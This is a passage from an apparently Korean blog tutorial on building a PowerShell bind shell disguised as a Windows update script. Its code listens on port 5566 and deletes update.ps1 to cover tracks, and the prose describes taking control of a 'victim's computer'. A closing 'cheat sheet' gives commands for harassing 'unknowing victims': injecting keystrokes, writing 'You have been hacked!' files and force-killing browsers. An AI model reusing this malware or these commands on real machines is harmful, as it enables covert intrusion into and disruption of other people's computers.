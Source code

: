 ```js
# 연결 대기
$listener = [System.Net.Sockets.TcpListener] 5566;
$listener.start();

# 여기서 update.ps1 제거!
rm update.ps1;

$client = $listener.AcceptTcpClient();

# 함수 호출
windowsUpdate;
```

요약하면, 이 프로그램은 접속한 사람이 사용할 수 있는 포트 5566에서 bind shell을 구축하는 기능을 만들었습니다. 프로그램은 들어오는 연결을 기다리면서 update.ps1 파일을 삭제합니다. 이 시점에서 저는 bind shell 함수에 연결하여 피해자의 컴퓨터를 제어하기 시작합니다. PowerShell 스크립팅이 이렇게 간단한 것이죠?



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

# 데모 타임

여기 데모에 대한 몇 가지 흥미로운 비디오가 있어요:

- 피해자에게 셸 코드 삽입하고 IP 주소 추출하기
- IP 주소 송부 및 피해자 컴퓨터 제어하기



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

우리의 알지 못하는 희생자들에게 소식을 전하는 여러 가지 방법이 있습니다. 여러분이 할 수 있는 일들에 대한 치트 시트입니다:

```js
// 피해자의 컴퓨터로 키 입력 보내기
$wshell = New-Object -ComObject wscript.shell;
$wshell.sendKeys(" ");
$wshell.sendKeys("Hahaha");

// 파일에 쓰기
echo You have been hacked! > hacked.txt

// 메모장으로 파일 열기
notepad hacked.txt


// 브라우저 닫기
taskkill /IM firefox.exe /F
taskkill /IM chrome.exe /F

```